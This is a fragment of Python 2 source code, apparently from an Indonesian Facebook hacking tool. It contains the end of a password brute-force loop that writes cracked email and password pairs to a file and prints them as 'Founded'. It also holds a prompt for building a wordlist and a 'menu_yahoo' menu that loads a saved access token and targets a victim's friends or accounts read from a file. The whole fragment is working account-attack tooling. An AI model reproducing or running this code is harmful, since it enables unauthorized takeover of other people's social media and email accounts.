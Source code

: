                        if 'www.facebook.com' in mpsh['error_msg']:
                            ceks = open('Brutecekpoint.txt', 'w')
                            ceks.write(email + ' | ' + pw + '\n')
                            ceks.close()
                            print '\n\x1b[1;91m[+] \x1b[1;92mFounded.'
                            print 52 * '\x1b[1;97m\xe2\x95\x90'
                            print '\x1b[1;91m[!] \x1b[1;93mAccount Maybe Checkpoint'
                            print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername \x1b[1;91m:\x1b[1;97m ' + email
                            print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword \x1b[1;91m:\x1b[1;97m ' + pw
                            keluar()
                except requests.exceptions.ConnectionError:
                    print '\x1b[1;91m[!] Connection Error'
                    time.sleep(1)

        except IOError:
            print '\x1b[1;91m[!] File not found...'
            print '\n\x1b[1;91m[!] \x1b[1;92mSepertinya kamu tidak memiliki wordlist'
            tanyaw()


def tanyaw():
    why = raw_input('\x1b[1;91m[?] \x1b[1;92mAre you sure want to make wordlist ? \x1b[1;92m[y/t]\x1b[1;91m:\x1b[1;97m ')
    if why == '':
        print '\x1b[1;91m[!] Please choice \x1b[1;97m(y/t)'
        tanyaw()
    else:
        if why == 'y':
            wordlist()
        else:
            if why == 'Y':
                wordlist()
            else:
                if why == 't':
                    menu_hack()
                else:
                    if why == 'T':
                        menu_hack()
                    else:
                        print '\x1b[1;91m[!] Please choice \x1b[1;97m(y/t)'
                        tanyaw()


def menu_yahoo():
    os.system('clear')
    try:
        toket = open('login.txt', 'r').read()
    except IOError:
        print '\x1b[1;91m[!] Token not found'
        os.system('rm -rf login.txt')
        time.sleep(1)
        login()

    os.system('clear')
    print logo
    print 52 * '\x1b[1;97m\xe2\x95\x90'
    print '║-> \x1b[1;37;40m1. From Friends'
    print '║-> \x1b[1;37;40m2. From File'
    print '║-> \x1b[1;31;40m0. Back'
    print '\x1b[1;37;40m║'
    yahoo_pilih()
